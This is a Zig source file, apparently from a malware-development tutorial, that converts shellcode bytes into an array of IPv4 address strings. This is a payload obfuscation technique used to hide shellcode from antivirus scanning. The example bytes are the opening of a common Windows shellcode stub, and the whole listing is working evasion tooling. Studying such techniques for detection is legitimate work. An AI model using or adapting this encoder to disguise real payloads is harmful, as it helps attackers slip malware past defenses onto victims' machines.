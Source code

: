 ```zig title="main.zig"

    try stdout.print("const ipv4_array = [_][*:0]const u8{{\n\t", .{});

    // We will read one shellcode byte at a time, when the total is 4, begin generating the IPv4 address
    // The variable 'c' is used to store the number of bytes read. By default, starts at 4.
    var c: usize = 4;
    var counter: usize = 0;

    var i: usize = 0;
    while (i < shellcode.len) : (i += 1) {
        // Track the number of bytes read and when they reach 4 we enter this if statement to begin generating the IPv4 address
        if (c == 4) {
            counter += 1;

            // Generating the IPv4 address from 4 bytes which begin at i until [i + 3]
            const ip = try generateIpv4(allocator, shellcode[i], shellcode[i + 1], shellcode[i + 2], shellcode[i + 3]);
            defer allocator.free(ip); // Free the allocated string when done

            if (i == shellcode.len - 4) {
                // Printing the last IPv4 address
                try stdout.print("\"{s}\"", .{ip});
                break;
            } else {
                // Printing the IPv4 address
                try stdout.print("\"{s}\", ", .{ip});
            }

            c = 1;

            // Optional: To beautify the output on the console
            if (counter % 8 == 0) {
                try stdout.print("\n\t", .{});
            }
        } else {
            c += 1;
        }
    }

    try stdout.print("\n}};\n\n", .{});
    return true;
}

pub fn main() !void {
    // Create an arena allocator that frees all allocations at once at the end
    var arena = std.heap.ArenaAllocator.init(std.heap.page_allocator);
    defer arena.deinit();

    const allocator = arena.allocator();
    // Example shellcode (must be a multiple of 4 bytes)
    const shellcode = [_]u8{
        0xFC, 0x48, 0x83, 0xE4, 0xF0, 0xE8, 0xC0, 0x00, 0x00, 0x00, 0x41, 0x51, 0x41, 0x50, 0x52, 0x51, // Add more shellcode here if needed
    };

    // Generate and print the IPv4 representation
    _ = try generateIpv4Output(allocator, &shellcode);
}
```
